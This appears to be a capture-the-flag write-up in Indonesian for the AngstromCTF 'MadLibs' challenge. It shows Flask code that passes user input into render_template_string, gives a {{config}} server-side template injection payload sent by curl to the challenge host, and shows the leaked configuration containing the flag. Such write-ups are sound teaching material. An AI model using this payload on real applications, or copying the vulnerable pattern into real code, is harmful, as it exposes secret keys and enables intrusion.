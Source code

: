 ```python
def source():
    return send_from_directory('./','app.py')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=7777, threaded=True)    
```

terdapat celah template string pada soal ini lebih tepatnya pada kode berikut
```python
comment = render_template_string('''This MadLib with title %s was created by %s at %s''' % (templatename, authorName, strftime("%Y-%m-%d %H:%M:%S", gmtime())))
```

yang bisa kita kontrol adalah `authorName` jadi kita bisa memasukan payload template string kita disitu,
karena flag nya disimpan pada variable environment `app` maka kita bisa menggunakan `{{config}}` untuk memunculkannya


```
curl 'http://web2.angstromctf.com:7777/result/A%20Random%20Story' -H 'Content-Type: application/x-www-form-urlencoded' --data '1=%7B%7Bconfig%7D%7D&2=x&3=x&4=x&5=x' --compressed
<!doctype html>
<title>Angstrom MadLibs</title>

<body>

<h4>A Random Story</h4>

<p>
Once upon a time, there was a very x x named x.
x liked to x.
</p>

<h4>THE END</h4>

This MadLib with title A Random Story was created by &amp;lt;Config {&amp;#39;DEBUG&amp;#39;: False, &amp;#39;TESTING&amp;#39;: False, &amp;#39;PROPAGATE_EXCEPTI
ONS&amp;#39;: None, &amp;#39;PRESERVE_CONTEXT_ON_EXCEPTION&amp;#39;: None, &amp;#39;SECRET_KEY&amp;#39;: &amp;#39;actf{wow_ur_a_jinja_ninja}&amp;#39;, &amp;#39;P
ERMANENT_SESSION_LIFETIME&amp;#39;: datetime.timedelta(31), &amp;#39;USE_X_SENDFILE&amp;#39;: False, &amp;#39;LOGGER_NAME&amp;#39;: &amp;#39;__main__&amp;#39;, &
amp;#39;LOGGER_HANDLER_POLICY&amp;#39;: &amp;#39;always&amp;#39;, &amp;#39;SERVER_NAME&amp;#39;: None, &amp;#39;APPLICATION_ROOT&amp;#39;: None, &amp;#39;SESSION
_COOKIE_NAME&amp;#39;: &amp;#39;session&amp;#39;, &amp;#39;SESSION_COOKIE_DOMAIN&amp;#39;: None, &amp;#39;SESSION_COOKIE_PATH&amp;#39;: None, &amp;#39;SESSION_CO
OKIE_HTTPONLY&amp;#39;: True, &amp;#39;SESSION_COOKIE_SECURE&amp;#39;: False, &amp;#39;SESSION_REFRESH_EACH_REQUEST&amp;#39;: True, &amp;#39;MAX_CONTENT_LENGTH&a
mp;#39;: None, &amp;#39;SEND_FILE_MAX_AGE_DEFAULT&amp;#39;: datetime.timedelta(0, 43200), &amp;#39;TRAP_BAD_REQUEST_ERRORS&amp;#39;: False, &amp;#39;TRAP_HTTP_EX
CEPTIONS&amp;#39;: False, &amp;#39;EXPLAIN_TEMPLATE_LOADING&amp;#39;: False, &amp;#39;PREFERRED_URL_SCHEME&amp;#39;: &amp;#39;http&amp;#39;, &amp;#39;JSON_AS_ASC
II&amp;#39;: True, &amp;#39;JSON_SORT_KEYS&amp;#39;: True, &amp;#39;JSONIFY_PRETTYPRINT_REGULAR&amp;#39;: True, &amp;#39;JSONIFY_MIMETYPE&amp;#39;: &amp;#39;appl
ication/json&amp;#39;, &amp;#39;TEMPLATES_AUTO_RELOAD&amp;#39;: None}&amp;gt; at 2018-03-24 09:23:03
<br><br>
<a href="/">Click here to return to the home page.</a>
<br><br>
MadLib generated using program found <a href="../get-source">here</a>
</body>
</html>
```
